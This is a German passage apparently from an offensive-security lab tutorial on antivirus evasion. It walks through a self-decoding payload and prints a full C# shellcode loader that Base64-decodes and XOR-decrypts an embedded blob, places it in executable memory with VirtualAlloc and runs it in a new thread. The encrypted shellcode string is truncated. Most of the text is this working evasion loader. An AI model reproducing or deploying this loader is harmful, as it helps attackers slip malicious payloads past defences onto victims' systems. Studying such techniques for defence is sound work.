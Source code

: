 Selbst-dekodierender Payload

Da wir einen verschlüsselten Payload haben, müssen wir unseren Code anpassen, damit er den Shellcode entschlüsselt, bevor er ihn ausführt. Um den Encoder zu entsprechen, werden wir alles in reverser Reihenfolge entschlüsseln, wie wir es verschlüsselt haben. Wir beginnen also damit, den Base64-Inhalt zu entschlüsseln, und setzen dann fort, indem wir das Ergebnis mit demselben Schlüssel XORieren, den wir im Encoder verwendet haben. Hier ist der vollständige Payload-Code (Sie können ihn auch auf Ihrem Windows-Rechner unter `C:\Tools\CS Files\EncStageless.cs` erhalten):

```cs
using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
